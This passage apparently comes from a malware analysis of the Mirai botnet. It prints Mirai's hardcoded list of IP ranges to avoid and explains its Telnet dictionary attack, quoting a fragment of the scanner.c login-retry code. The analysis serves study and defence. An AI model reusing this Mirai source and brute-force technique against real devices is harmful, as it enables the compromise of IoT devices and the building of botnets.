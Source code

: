Mirai also holds a hardcoded list of IPs that the bots are programmed to avoid when performing their IP scans. This list includes the US Postal Service, the Department of Defense, the Internet Assigned Numbers Authority (IANA) and IP ranges belonging to Hewlett-Packard and General Electric.

```
127.0.0.0/8               - Loopback
0.0.0.0/8                 - Invalid address space
3.0.0.0/8                 - General Electric (GE)
15.0.0.0/7                - Hewlett-Packard (HP)
56.0.0.0/8                - US Postal Service
10.0.0.0/8                - Internal network
192.168.0.0/16            - Internal network
172.16.0.0/14             - Internal network
100.64.0.0/10             - IANA NAT reserved
169.254.0.0/16            - IANA NAT reserved
198.18.0.0/15             - IANA Special use
224.*.*.*+                - Multicast
6.0.0.0/7                 - Department of Defense
11.0.0.0/8                - Department of Defense
21.0.0.0/8                - Department of Defense
22.0.0.0/8                - Department of Defense
26.0.0.0/8                - Department of Defense
28.0.0.0/7                - Department of Defense
30.0.0.0/8                - Department of Defense
33.0.0.0/8                - Department of Defense
55.0.0.0/8                - Department of Defense
214.0.0.0/7               - Department of Defense
```
This list is interesting, as it offers a glimpse into the psyche of the code’s authors. On the one hand, it exposes concerns of drawing attention to his activities. On the other hand, the content list is fairly naïve, the sort of thing you would expect from someone who learned about cyber security from the popular media, not a professional cyber criminal.

#### Exploitation

Once a host with Telnet ports (*23* and *2323*) enabled, Mirai uses a brute force technique for guessing passwords: basically, it uses a dictionary attack based on a list of 60 hard-coded credentials contained in the *scanner.c* file.

```c
switch (conn->state)
{
    [...]
    case SC_WAITING_TOKEN_RESP:
        consumed = consume_resp_prompt(conn);
        if (consumed == -1)
        {
    #ifdef DEBUG
            printf("[scanner] FD%d invalid username/password combo\n", conn->fd);
    #endif
            close(conn->fd);
            conn->fd = -1;

            // Retry
            if (++(conn->tries) == 10)
            {
                conn->tries = 0;
                conn->state = SC_CLOSED;
            }
            else
            {
                setup_connection(conn);
    #ifdef DEBUG
                printf("[scanner] FD%d retrying with different auth combo!\n", conn->fd);
    #endif
            }
```
